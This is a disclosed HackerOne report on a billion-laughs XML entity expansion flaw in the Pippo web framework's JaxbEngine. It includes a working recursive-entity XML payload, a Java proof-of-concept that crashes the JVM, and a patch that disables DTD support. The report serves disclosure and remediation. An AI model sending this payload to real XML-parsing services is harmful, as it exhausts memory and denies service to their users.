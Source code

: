 # Pippo XML Entity Expansion (Billion Laughs Attack)

## Report Details
- **Report ID**: 506791
- **URL**: https://hackerone.com/reports/506791
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-03-08T15:19:48.688Z
- **Disclosed**: 2019-06-10T14:04:43.537Z

## Reporter
- **Username**: amassey
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: central-security-project

## Vulnerability Information
# Maven artifact
**groupId:** ro.pippo
**artifactId:** pippo-jaxb
**version:** 1.12.0

# Vulnerability
## Vulnerability Description
> Pippo unsafely parses user provided XML. The `fromString()` in the `ro.pippo.jaxb.JaxbEngine` class allows user provided DTDs that the rest of the XML may reference. This can lead to recursive entity expansion and a subsequent billion laughs attack.

## Additional Details
**Source File and Line Number:** https://github.com/pippo-java/pippo/blob/7da9f4db945d10113cf4ea4ed44ba0f1a7f83a8f/pippo-content-type-parent/pippo-jaxb/src/main/java/ro/pippo/jaxb/JaxbEngine.java#L78

## Steps To Reproduce:
> Detailed steps to reproduce with all required references/steps/commands. Any sample/exploit code or other proof of concept.

1. Supply below XML payload as an argument to the following Java main method which is a client of Pippo.
2. Enjoy watching the JVM crash.

### XML Payload that Results in Recursive Entity Expansion
```
<?xml version="1.0"?>
<!DOCTYPE PERSON [
        <!ENTITY PERSON "PERSON">
        <!ELEMENT PERSON (#PCDATA)>
        <!ENTITY PERSON1 "&PERSON;&PERSON;&PERSON;&PERSON;&PERSON;&PERSON;&PERSON;&PERSON;&PERSON;&PERSON;">
        <!ENTITY PERSON2 "&PERSON1;&PERSON1;&PERSON1;&PERSON1;&PERSON1;&PERSON1;&PERSON1;&PERSON1;&PERSON1;&PERSON1;">
        <!ENTITY PERSON3 "&PERSON2;&PERSON2;&PERSON2;&PERSON2;&PERSON2;&PERSON2;&PERSON2;&PERSON2;&PERSON2;&PERSON2;">
        <!ENTITY PERSON4 "&PERSON3;&PERSON3;&PERSON3;&PERSON3;&PERSON3;&PERSON3;&PERSON3;&PERSON3;&PERSON3;&PERSON3;">
        <!ENTITY PERSON5 "&PERSON4;&PERSON4;&PERSON4;&PERSON4;&PERSON4;&PERSON4;&PERSON4;&PERSON4;&PERSON4;&PERSON4;">
        <!ENTITY PERSON6 "&PERSON5;&PERSON5;&PERSON5;&PERSON5;&PERSON5;&PERSON5;&PERSON5;&PERSON5;&PERSON5;&PERSON5;">
        <!ENTITY PERSON7 "&PERSON6;&PERSON6;&PERSON6;&PERSON6;&PERSON6;&PERSON6;&PERSON6;&PERSON6;&PERSON6;&PERSON6;">
        <!ENTITY PERSON8 "&PERSON7;&PERSON7;&PERSON7;&PERSON7;&PERSON7;&PERSON7;&PERSON7;&PERSON7;&PERSON7;&PERSON7;">
        <!ENTITY PERSON9 "&PERSON8;&PERSON8;&PERSON8;&PERSON8;&PERSON8;&PERSON8;&PERSON8;&PERSON8;&PERSON8;&PERSON8;">
        ]>

<PERSON>&PERSON9;</PERSON>
```

### Java Code that acts as a Pippo Client
```
import org.apache.commons.io.IOUtil;
import ro.pippo.jaxb.JaxbEngine;
import java.io.IOException;


public class JaxBEnginePoC {

    public static void main(String[] args) throws IOException {

        String resourceName = args[0];

        String payload = IOUtil.toString(
                JaxBEnginePoC.class.getResourceAsStream(resourceName),
                "UTF-8"
        );

        JaxbEngine jaxbEngine = new JaxbEngine();
        Object myObj = jaxbEngine.fromString(payload, Person.class);

        System.out.println("Completed!");
    }
}
```

## Patch
> If you're able to provide a patch with the fix, please post it in this section (or attach)

xmlInputFactory.setProperty(XMLInputFactory.SUPPORT_DTD, true); 

Should Be

xmlInputFactory.setProperty(XMLInputFactory.SUPPORT_DTD, false);

## Supporting Material/References:
> State all technical information about the stack where the vulnerability was found
- Darwin Kernel Version 18.2.0
- Java jdk1.8.0_171

# Wrap up
> Select Y or N for the following statements:
- I contacted the maintainer to let them know: N 
- I opened an issue in the related repository: N

> Finder's comments and funny memes goes here

http://i.imgur.com/3POtveC.jpg

Is it pronounced imgur or imgur? Gif or Gif?

## Impact

It causes a DoS. Specifically: Entities are created recursively and large amounts of heap memory is taken. Eventually, the JVM process will run out of memory. Otherwise, if the OS does not bound the memory on that process, memory will continue to be exhausted and will affect other processes on the system.

## Attachments
- pippo-poc-1.0-SNAPSHOT-sources.jar

